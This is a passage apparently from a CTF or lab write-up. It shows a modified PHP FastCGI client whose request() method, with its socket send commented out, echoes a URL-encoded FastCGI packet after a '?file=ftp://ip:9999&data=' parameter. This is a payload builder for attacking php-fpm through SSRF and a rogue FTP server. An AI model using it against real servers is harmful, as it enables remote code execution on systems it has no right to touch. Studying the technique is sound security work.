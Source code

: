 ```php
    }
    /**
     * Get Informations on the FastCGI application
     *
     * @param array $requestedInfo information to retrieve
     * @return array
     */
    public function getValues(array $requestedInfo)
    {
        $this->connect();
        $request = '';
        foreach ($requestedInfo as $info) {
            $request .= $this->buildNvpair($info, '');
        }
        fwrite($this->_sock, $this->buildPacket(self::GET_VALUES, $request, 0));
        $resp = $this->readPacket();
        if ($resp['type'] == self::GET_VALUES_RESULT) {
            return $this->readNvpair($resp['content'], $resp['length']);
        } else {
            throw new Exception('Unexpected response type, expecting GET_VALUES_RESULT');
        }
    }
    /**
     * Execute a request to the FastCGI application
     *
     * @param array $params Array of parameters
     * @param String $stdin Content
     * @return String
     */
    public function request(array $params, $stdin)
    {
        $response = '';
//        $this->connect();
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('?file=ftp://ip:9999&data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
```

[FTP]: https://www.cnblogs.com/xiaohh/p/4789813.html
[FTP主被动模式]: https://blog.csdn.net/L835311324/article/details/81874628